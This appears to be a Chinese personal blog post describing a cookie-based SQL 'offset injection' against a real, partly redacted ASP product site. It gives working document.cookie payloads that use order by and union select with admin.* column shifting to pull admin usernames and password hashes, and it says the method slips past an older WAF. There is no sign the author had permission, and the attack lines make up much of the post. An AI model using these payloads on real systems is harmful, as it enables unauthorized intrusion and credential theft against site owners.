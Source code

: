 ```yaml
---
layout: post
title:  "简单的偏移注入"
categories: 渗透测试
tags: 渗透测试 渗透
author: young
---
```




* content
{:toc}








## 目标网站

![图片1.png](https://i.loli.net/2020/02/02/orzMnXVvwCTfOWi.png)

偏移注入也是cookie注入吧，一种骚操作  
所以需要在字段比较多的进行测试，所以我直接在产品中心这个地方点进去  

## 开始

这个小网站我找了好久~~~

![图片2.png](https://i.loli.net/2020/02/02/RjlheXWdI9crEfx.png)

不知道怎么讲嘞，似乎好像可以过老版本的狗，一些老版本的狗只检测get和post传参  
目标网站 :http://www.******.com/ProductShow.asp?ID=12    
然后再用document.cookie="ID="+escape("12") 进行cookie注入    
不知道该咋说~~~~~  
第一步： 先把?ID=12  
网站后面的  ?ID=12 给去掉  

![图片3.png](https://i.loli.net/2020/02/02/xUk1JCI7GFTyswN.png)

然后再按f12这边按下回车

![图片4.png](https://i.loli.net/2020/02/02/QOzvpxGNy4l2cEg.png)

然后刷新下页面，发现没有报错，这里可以使用偏移注入

![图片5.png](https://i.loli.net/2020/02/02/MlnmE9V28qbaQcj.png)

一直order by ，发现有24报错了，应该就有23个字段，再使用联合查询 union select  
跟一般注入没啥区别，只不过传参进去的方式不同  
Asp的站一般跟着access了，关于access库的问题就不说了  
![图片6.png](https://i.loli.net/2020/02/02/B5cDUNZum6wyxkz.png)  
于是乎就出现了回显点  
这里会用到 * 这个符号，具体怎么样看下去就知道了  
哎呀，反正语文不好，不知道咋说  
* 在数据库中代表所有  然后我们发现  

```bash
 document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 from admin")  
 ```

我们在f12中输入这段，然后发现没有报错，说明有admin这个表  
然后我们在用 admin.* 就代表着admin表里面所有的数据  
但是偏移注入得看字段多不多，字段少的话就无法使用 ，可以说是占位符吧  

```bash
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.* from admin")
```

![图片7.png](https://i.loli.net/2020/02/02/nPla9OGIy62UV8k.png)  

然后发现到当admin.\*到11这边报错了，当admin.\*到10这边页面正常

![图片8.png](https://i.loli.net/2020/02/02/y1ZY5neq4h3oHQ6.png)

那就可以“漂移”了，顾名思义，偏移注入就是往左偏移  
但是字段不能变

![图片9.png](https://i.loli.net/2020/02/02/SloJvTpLWCxn8K2.png)

```bash
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.* from admin")
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,,8,admin.*,9 from admin")
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,admin.*,8,9 from admin")
```

莫得错，就是一直向左“漂移”，但是字段数不能变
直到偏移出数据来  
![图片10.png](https://i.loli.net/2020/02/02/KjFYmQSMOiGZzy6.png)

偏移到  当 admin.* 在5的那个位置时候出现了一串东西，但是不晓得  
估计是user吧，继续偏移到4的时候

![图片11.png](https://i.loli.net/2020/02/02/eRfy7xOQDodpX3G.png)

出现了这个，这个估计是密码，然后继续偏移，发现还有一串md5加密的，于是我解密时候，发现是一串数字

![图片12.png](https://i.loli.net/2020/02/02/joGevwSrmBH3gOR.png)

呃呃呃，然后就没了  
一个简单的偏移注入，自小语文不好，所以不慌  
然后这个网站在get那边注入有waf，所以....    
低水平，看看就好  
（我发现还可以试试存储型xss，但是时间不够）  
